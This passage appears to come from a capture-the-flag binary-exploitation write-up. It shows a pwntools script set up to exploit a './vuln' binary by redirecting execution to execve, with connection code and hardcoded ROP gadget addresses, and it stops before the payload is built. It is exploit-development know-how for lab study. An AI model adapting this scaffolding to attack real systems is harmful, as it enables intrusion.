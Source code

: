 Next steps is redirect code execution to this address. To achieve that.
After playing with RBP, finally successfully redirect code execution to execve.

Here is final exploit. 

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or './vuln')
context.terminal = ['tmux', 'splitw', '-v']

host = args.HOST or '192.168.1.101'
port = int(args.PORT or 42123)

if args.LOCAL_LIBC:
    libc = exe.libc
elif args.LOCAL:
    library_path = libcdb.download_libraries('./libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('./libc.so.6')
else:
    libc = ELF('./libc.so.6')

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
tbreak *main+88
continue
'''.format(**locals())

# -- Exploit goes here --

io = start()

landing_addr = 0x404038
print_addr   = 0x404010
print_call   = 0x401211
pop_rbp_ret  = 0x40115d
gets_call    = 0x401205
add_rsp_8    = 0x401016
```